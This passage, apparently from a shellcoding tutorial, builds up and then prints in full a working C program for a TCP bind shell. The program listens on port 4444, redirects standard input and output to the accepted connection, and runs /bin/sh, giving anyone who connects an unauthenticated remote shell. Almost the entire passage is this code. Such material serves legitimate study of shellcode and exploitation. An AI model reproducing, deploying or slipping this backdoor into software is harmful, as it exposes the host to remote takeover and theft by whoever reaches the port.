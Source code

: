 Listen for connections on the socket:

```c
listen(sockfd, 0);
```

Accept a connection on the socket:

```c
int acceptfd = accept4(sockfd, NULL, NULL, 0);
```

Duplicate STDIN, STDOUT and STDERR file descriptors in order to redirect everything to the socket connected:

```c
dup2(acceptfd, 0);
dup2(acceptfd, 1);
dup2(acceptfd, 2);
```

Execute the `/bin/sh` program:

```c
execve("/bin/sh", NULL, NULL);
```

The whole `C` program is the following:

```c
// TCP Bind Shell
// Author: geobour98

#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>

int main()
{
	
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	struct sockaddr_in address = {
		.sin_family = AF_INET,
		.sin_port = htons(4444),
		.sin_addr = INADDR_ANY
	};

	bind(sockfd, (struct sockaddr*) &address, sizeof(address));

	listen(sockfd, 0);

	int acceptfd = accept4(sockfd, NULL, NULL, 0);

	dup2(acceptfd, 0);
	dup2(acceptfd, 1);
	dup2(acceptfd, 2);

	execve("/bin/sh", NULL, NULL);
	
	return 0;
}
```
